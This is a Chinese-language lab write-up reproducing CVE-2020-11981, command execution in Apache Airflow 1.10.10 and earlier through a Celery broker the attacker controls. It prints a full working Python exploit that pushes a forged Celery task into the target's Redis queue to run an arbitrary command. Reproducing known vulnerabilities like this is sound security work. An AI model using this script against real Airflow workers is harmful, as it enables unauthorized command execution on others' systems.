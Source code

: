 # Apache Airflow Celery 消息中间件命令执行

> 漏洞说明

Apache Airflow是一款开源的，分布式任务调度框架。在其1.10.10版本及以前，如果攻击者控制了Celery的消息中间件（如Redis/RabbitMQ），将可以通过控制消息，在Worker进程中执行任意命令。



> 前提条件

需要控制消息中间件

版本：Apache Airflow <= 1.10.10



> 利用工具

[exploit_airflow_celery.py](https://github.com/vulhub/vulhub/blob/master/airflow/CVE-2020-11981/exploit_airflow_celery.py)



> 漏洞复现

利用脚本命令执行

```python
import pickle
import json
import base64
import redis
import sys
r = redis.Redis(host=sys.argv[1], port=6379, decode_responses=True,db=0) 
queue_name = 'default'
ori_str="{\"content-encoding\": \"utf-8\", \"properties\": {\"priority\": 0, \"delivery_tag\": \"f29d2b4f-b9d6-4b9a-9ec3-029f9b46e066\", \"delivery_mode\": 2, \"body_encoding\": \"base64\", \"correlation_id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"delivery_info\": {\"routing_key\": \"celery\", \"exchange\": \"\"}, \"reply_to\": \"fb996eec-3033-3c10-9ee1-418e1ca06db8\"}, \"content-type\": \"application/json\", \"headers\": {\"retries\": 0, \"lang\": \"py\", \"argsrepr\": \"(100, 200)\", \"expires\": null, \"task\": \"airflow.executors.celery_executor.execute_command\", \"kwargsrepr\": \"{}\", \"root_id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"parent_id\": null, \"id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"origin\": \"gen1@132f65270cde\", \"eta\": null, \"group\": null, \"timelimit\": [null, null]}, \"body\": \"W1sxMDAsIDIwMF0sIHt9LCB7ImNoYWluIjogbnVsbCwgImNob3JkIjogbnVsbCwgImVycmJhY2tzIjogbnVsbCwgImNhbGxiYWNrcyI6IG51bGx9XQ==\"}"
task_dict = json.loads(ori_str)
command = ['touch','/tmp/tomato']
body=[[command], {}, {"chain": None, "chord": None, "errbacks": None, "callbacks": None}]
task_dict['body']=base64.b64encode(json.dumps(body).encode()).decode()
print(task_dict)
r.lpush(queue_name,json.dumps(task_dict))
```

安装redis库

![image-20221217221509419](../img/Apache Airflow_CVE-2020-11981/image-20221217221509419.png)

执行脚本

![image-20221217225041052](../img/Apache Airflow_CVE-2020-11981/image-20221217225041052.png)

命令执行成功

![image-20221217225215904](../img/Apache Airflow_CVE-2020-11981/image-20221217225215904.png)




